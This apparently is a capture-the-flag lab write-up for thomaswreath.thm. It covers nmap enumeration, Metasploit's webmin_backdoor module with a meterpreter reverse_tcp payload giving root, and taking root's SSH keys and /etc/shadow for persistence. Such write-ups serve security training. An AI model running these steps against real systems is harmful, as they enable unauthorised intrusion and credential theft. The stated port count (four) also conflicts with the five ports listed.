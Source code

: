 ## 10.200.185.200

### Initial Information
The target is publicly available and an IP address was provided.

Our goal is to compromise the exposed target and establish a base from which further penetration into the private network is possible.

## Enumeration
### NMAP Scans

```bash
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN 10.200.185.200
```

revealed 4 open TCP ports:

| port | service |
| --- | --- |
| tcp:22 | SSH | 
| tcp:80 | HTTP | 
| tcp:443 | HTTPS |
| tcp:9090 | zeus-admin |
| tcp:10000 | MiniServ 1.890 (Webmin httpd) |

### port 22
* OpenSSH 8.0 (protocol 2.0)
* no further action

### port 80 / 443
* both ports produce a failed redirect to thomaswreath.thm, indicating incorrectly configured DNS.
* adding this entry to the attacker `hosts` configuration file allows onward access to the underlying website:
```
10.200.185.200 thomaswreath.thm
```
* the pages contain personal information for Mr Thomas Wreath including: history of career and education, interests, personal contact information, a photo of the individual.

### port 10000
* webmin service is exposed and version reported is 1.89
* navigating to this location confirms the presence of a webmin login portal

  ![webmin](assets/images/webmin_portal.png "webmin portal")
* a search against exploit-db shows a vulnerability for webmin version <1.920<sup>[1]</sup> which allows unauthenticated remote code execution.

## Initial Exploitation
A metasploit module is available for the webmin vulnerability - use of which provides root access to the machine with the following configuration:

```
Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:po
                                         rt[,type:host:port][...]
   RHOSTS     10.200.185.200   yes       The target host(s), see https://gith
                                         ub.com/rapid7/metasploit-framework/w
                                         iki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface
                                         to listen on. This must be an addres
                                         s on the local machine or 0.0.0.0 to
                                          listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing conne
                                         ctions
   SSLCert                     no        Path to a custom SSL certificate (de
                                         fault is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (def
                                         ault is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.50.182.73     yes       The listen address (an interface may be
                                     specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)
```

## Evidence
```bash
[root@prod-serv ~]$ hostname; whoami; ip a
prod-serv
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:38:98:fb:ba:d7 brd ff:ff:ff:ff:ff:ff
    inet 10.200.185.200/24 brd 10.200.185.255 scope global dynamic noprefixroute eth0
       valid_lft 2735sec preferred_lft 2735sec
    inet6 fe80::38:98ff:fefb:bad7/64 scope link 
       valid_lft forever preferred_lft forever

```

## Establishing Persistence
Our scans had previously revealed that SSH access to the box was possible. Investigation of the `/root` directory revealed a `.ssh` folder containing keys which could be used for remote access.  This directory was exfiltrated for future connections.

The `/etc/shadow` file was exfiltrated for investigation.

## Move Laterally
Determining hosts **prod-serv** has connected to:
```bash
[root@prod-serv ~]$ arp -a
ip-10-200-185-1.eu-west-1.compute.internal (10.200.185.1) at 02:81:d2:e0:8a:a3 [ether] on eth0

```


---
##### [1] https://www.exploit-db.com/exploits/47230, accessed 2021-12-27 